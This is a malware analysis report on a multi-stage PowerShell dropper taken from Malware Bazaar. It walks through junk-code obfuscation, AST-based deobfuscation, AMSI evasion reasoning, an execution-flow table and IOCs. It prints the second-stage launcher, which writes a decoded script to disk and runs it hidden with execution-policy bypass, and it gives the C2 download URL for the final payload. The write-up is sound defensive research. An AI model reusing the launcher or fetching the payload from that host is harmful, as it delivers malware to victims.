

# Source

* Malware Bazaar: https://bazaar.abuse.ch/sample/47cae3c0b59f0e6a33e7aed184fafd9b978b049a00a88ce1e93ec1ef538fff67/
* File type: Powershell
* Size: ~42 KB

# Analysis

## Obfuscation

A quick skim through the script indicated that there was lots of junk code, which bloated the file size.
```
$null = Get-Random
$EBhNgQ = 79 * 40 + 82
$DaoYFlpmM = $env:COMPUTERNAME
$hXgMbb = 35 * 44 + 13
$uPuAHGBDRt = [System.Guid]::NewGuid().ToString()
```

## Deobfuscation

Deobfuscation of the above elements was performed through Abstract Syntax Tree (AST) analysis. Utilities: https://github.com/nikhilh-20/re_tools/tree/main/powershell
```
 > .\PsRemove-DeadCode.ps1 -InputFile C:\Users\Ashura\Desktop\47cae3c0b59f0e6a33e7aed184fafd9b978b049a00a88ce1e93ec1ef538fff67\47cae3c0b59f0e6a33e7aed184fafd9b978b049a00a88ce1e93ec1ef538fff67.ps1 -OutputFile C:\Users\Ashura\Desktop\47cae3c0b59f0e6a33e7aed184fafd9b978b049a00a88ce1e93ec1ef538fff67\47cae3c0b59f0e6a33e7aed184fafd9b978b049a00a88ce1e93ec1ef538fff67_pass1.ps1
{"changed":801,"output_path":"C:\\Users\\Ashura\\Desktop\\47cae3c0b59f0e6a33e7aed184fafd9b978b049a00a88ce1e93ec1ef538fff67\\47cae3c0b59f0e6a33e7aed184fafd9b978b049a00a88ce1e93ec1ef538fff67_pass1.ps1","output_bytes":14418,"by_reason":"55x dead function, 60x no-op statement, 686x dead store","input_bytes":42731}

> .\PsCollapse-BlankLines.ps1 -InputFile C:\Users\Ashura\Desktop\47cae3c0b59f0e6a33e7aed184fafd9b978b049a00a88ce1e93ec1ef538fff67\47cae3c0b59f0e6a33e7aed184fafd9b978b049a00a88ce1e93ec1ef538fff67_pass1.ps1 -OutputFile C:\Users\Ashura\Desktop\47cae3c0b59f0e6a33e7aed184fafd9b978b049a00a88ce1e93ec1ef538fff67\47cae3c0b59f0e6a33e7aed184fafd9b978b049a00a88ce1e93ec1ef538fff67_pass2.ps1
{"changed":4,"output_path":"C:\\Users\\Ashura\\Desktop\\47cae3c0b59f0e6a33e7aed184fafd9b978b049a00a88ce1e93ec1ef538fff67\\47cae3c0b59f0e6a33e7aed184fafd9b978b049a00a88ce1e93ec1ef538fff67_pass2.ps1","output_bytes":13623,"input_bytes":14418}
```

## Payload

After deobfuscation, a base64-encoded string remained, which was then base64-decoded and executed through a dynamically created `ScriptBlock`. The decoded base64-encoded content is shown below:
```
$bytes = [Convert]::FromBase64String('<base64_content>')
$scriptContent = [System.Text.Encoding]::Unicode.GetString($bytes)
$tempScript = [System.IO.Path]::GetTempFileName() + ".ps1"
[System.IO.File]::WriteAllText($tempScript, $scriptContent, [System.Text.Encoding]::Unicode)

Start-Process powershell -WindowStyle Hidden -ArgumentList "-NoProfile -ExecutionPolicy Bypass -File `"$tempScript`""
exit
```

This base64-encoded content when decoded results in a dropper malware.

### Need for Obfuscation

The first stage Powershell script was obfuscated with junk code and executed its payload through a dynamically created `ScriptBlock`. The second stage payload itself had a base64-encoded third-stage payload which was decoded, written into a file on disk and executed. The Claude-generated detailed analysis (verified) of the third stage payload is given below, but it's essentially a dropper malware.

On a Windows machine, AMSI can inspect the code being executed through `ScriptBlock`. While the third stage payload is base64-encoded in the second stage, the existence of `-WindowStyle Hidden`, `-NoProfile`, and `-ExecutionPolicy Bypass` strings in the second stage will most likely trip detections. So, this chain of execution is not particularly effective at bypassing AMSI. In addition, the third stage payload is written in plaintext to a file on disk, which will trigger file-scanning AV services and most likely trip detections as well. Overall, bypassing host-based detection mechanisms does not seem to be the goal.

The first stage Powershell script was obfuscated and thus, also bloated in size. Considering the lack of bypass capability on the host, it indicates that the threat actor's goal was to bypass network-based detection mechanisms and sandboxes / analysis mechanisms which have file size and analysis time limits.

### Flowchart



### Summary

#### Executive Summary of Functionality

`payload2.dat` is a PowerShell-based dropper. Upon execution, it silently downloads a secondary executable payload from a hardcoded C2 server at `85.239.149[.]78:6600` and executes it with a hidden window on the victim host.

The script abuses the legacy `WinHTTP.WinHTTPRequest.5.1` COM object instead of standard PowerShell web cmdlets like `Invoke-WebRequest` (.NET dependency), stages the payload in a directory named `C:\ProgramData\Zooms` to potentially masquerade as a Zoom installation, and explicitly frees COM object memory and forces garbage collection to reduce forensic artefacts. A no-op probe for `C:\Windows\Temp\sensor.log` at the end suggests awareness of EDR/sandbox honeypot files, though the check performs no conditional action in the current implementation.

No persistence mechanism is present in this script.

#### Execution Flow

| Step | Action | Detail |
|------|--------|--------|
| 1 | Error control | `$ErrorActionPreference = "Stop"` — prevents partial execution on failure |
| 2 | TLS enforcement | Forces TLS 1.2 via `ServicePointManager`; wrapped in `try-catch` to fail silently on locked-down hosts |
| 3 | Path construction | Builds `C:\ProgramData\Zooms` via string concatenation of `$p1...$p4` to defeat static string detection |
| 4 | Staging directory | `New-Item -Force` creates `C:\ProgramData\Zooms` |
| 5 | COM object init | Instantiates `WinHTTP.WinHTTPRequest.5.1` — avoid .NET dependency |
| 6 | C2 download | Synchronous `GET http://85.239.149[.]78:6600/ks3mscqz/dfgsdfgbvbb.exe` |
| 7 | Validation | Throws if HTTP status ≠ 200 |
| 8 | Filename extraction | Parses filename from hardcoded URL — always resolves to `dfgsdfgbvbb.exe`; the `download.bin` fallback is unreachable with this URL |
| 9 | Disk write | `System.IO.File::WriteAllBytes` writes binary to `C:\ProgramData\Zooms\dfgsdfgbvbb.exe` |
| 10a | MSI branch | Dead code in this instance. Since the URL ends in `.exe`, `$filePath` never matches `*.msi`. This branch is likely reusable template scaffolding — swapping `$url` to an `.msi` URL would activate it. |
| 10b | EXE branch | Always taken with current hardcoded URL: `Start-Process -WindowStyle Hidden` |
| 11 | COM cleanup | `Marshal::ReleaseComObject` + explicit `GC::Collect()` / `WaitForPendingFinalizers()` |
| 12 | Potential test probe | Checks for `C:\Windows\Temp\sensor.log` and if so, prints `dummy operation` |

#### IOCs

* Network

| Type | Value |
|---|---|
| IP Address | `85.239.149[.]78` |
| Port | `6600` |
| Full URL | `http://85.239.149[.]78:6600/ks3mscqz/dfgsdfgbvbb.exe` |
| User-Agent | Default `WinHTTP.WinHTTPRequest.5.1` (no custom UA set) |

* Filepath

| Type | Value |
|---|---|
| Staging directory | `C:\ProgramData\Zooms` |
| Downloaded payload | `C:\ProgramData\Zooms\dfgsdfgbvbb.exe` |
| Fallback filename | `C:\ProgramData\Zooms\download.bin` |
| Potential test probe path | `C:\Windows\Temp\sensor.log` (read-only check) |
